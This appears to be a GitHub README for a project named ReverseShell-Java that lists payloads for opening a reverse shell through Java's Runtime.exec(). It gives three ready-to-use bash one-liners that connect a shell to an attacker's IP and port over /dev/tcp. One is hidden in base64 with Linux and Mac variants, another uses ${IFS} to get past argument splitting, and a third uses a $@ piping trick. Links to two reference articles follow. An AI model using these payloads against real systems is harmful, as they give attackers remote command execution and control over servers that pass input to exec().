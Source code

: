 # ReverseShell-Java
The project work on generating payloads to reverse shell in different contexts of java.


### Payloads in Runtime.getRuntime().exec(String command):
#### Method1:
Linux: bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-d}|{bash,-i}

MAC: bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-D}|{bash,-i}
#### Method2:
bash -c bash${IFS}-i${IFS}>&/dev/tcp/**IP**/**PORT**<&1
#### Method3:
bash -c $@|bash 0 echo bash -i >& /dev/tcp/**IP**/**PORT** 0>&1

### Reference:
http://www.jackson-t.ca/runtime-exec-payloads.html

https://blog.spoock.com/2018/11/25/getshell-bypass-exec/
